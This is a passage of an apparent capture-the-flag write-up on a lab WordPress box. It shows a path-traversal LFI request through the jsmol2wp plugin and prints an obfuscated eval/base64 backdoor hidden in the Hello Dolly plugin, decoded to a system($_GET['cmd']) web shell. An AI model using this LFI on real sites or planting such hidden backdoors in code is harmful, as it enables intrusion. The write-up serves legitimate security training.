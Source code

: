 

Login to the wordpress site there is a private file on the "**Pages**" tab that gives some list of tasks and the first task seem really important, which in summary says; "_There is a backdoor located under the **Hello Dolly** plugin file, which in turn might be out way to foothold_"



![](https://i.imgur.com/p9ibqwR.png)



Searching for the **"Hello Dolly"** path, since we have an LFI vulnerability, we can read the config file and do a code review to see where the backdoor is located at, I got the right path from a post by **_Packt_**



![](https://i.imgur.com/ywO8sKg.png)


Which boils down to the following URL, yielding the analyst profit;


```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```


First of all we can go ahead break down the source code

- The code inside `hello.php` contained:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

- `base64_decode(...)` decodes a **Base64-encoded** string.
- `eval(...)` then **executes the decoded PHP code**.


It is possible to decode this by decoding the base64 payload first which gives us thus;


```bash
❯ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```


Then we can decode the hex in the curly braces using the `python3` utility

```bash
❯ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print("\143\155\x64")
cmd
>>> print("\143\x6d\144")
cmd
>>> 
```
